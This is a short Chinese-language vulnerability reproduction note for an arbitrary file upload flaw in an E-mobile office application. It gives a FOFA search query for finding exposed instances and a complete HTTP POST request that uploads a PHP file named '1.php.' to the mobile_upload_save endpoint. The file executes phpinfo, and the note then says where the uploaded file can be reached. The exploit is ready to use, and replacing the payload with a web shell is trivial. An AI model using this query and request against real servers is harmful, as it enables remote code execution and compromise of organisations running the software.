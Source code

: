 <a name="NpLPF"></a>
# 一、fofa搜索语法
```java
body="/newplugins/js/pnotify/jquery.pnotify.default.css"
```
<a name="TNcUl"></a>
# 二、漏洞复现
请求接口上传任意文件
```java
POST /E-mobile/App/Ajax/ajax.php?action=mobile_upload_save  HTTP/1.1
Host: your-ip
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarydRVCGWq4Cx3Sq6tt
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Connection: close
Content-Length: 350

------WebKitFormBoundarydRVCGWq4Cx3Sq6tt
Content-Disposition: form-data; name="upload_quwan"; filename="1.php."
Content-Type: image/jpeg

<?php phpinfo();?>
------WebKitFormBoundarydRVCGWq4Cx3Sq6tt
```
![image.png](https://cdn.nlark.com/yuque/0/2024/png/42988647/1719240352786-a3725668-6df0-45d2-a23b-2fa5811cff21.png#averageHue=%23fbfbfb&clientId=ud521e60a-9dae-4&from=paste&height=518&id=u66fee27d&originHeight=647&originWidth=1507&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=115847&status=done&style=none&taskId=uff74b4a2-b292-43e3-989f-1a0cd193097&title=&width=1205.6)<br />文件访问地址为回显中的/attachment/xxxxxx/1.php<br />![image.png](https://cdn.nlark.com/yuque/0/2024/png/42988647/1719240527145-cea0ef34-97b2-4764-8658-20ea3aeb77cd.png#clientId=ud521e60a-9dae-4&from=paste&height=715&id=u698c9c9e&originHeight=894&originWidth=1537&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=122229&status=done&style=none&taskId=ufe5b5554-1f11-4084-a72a-1aaa1e60483&title=&width=1229.6)<br />证明存在漏洞








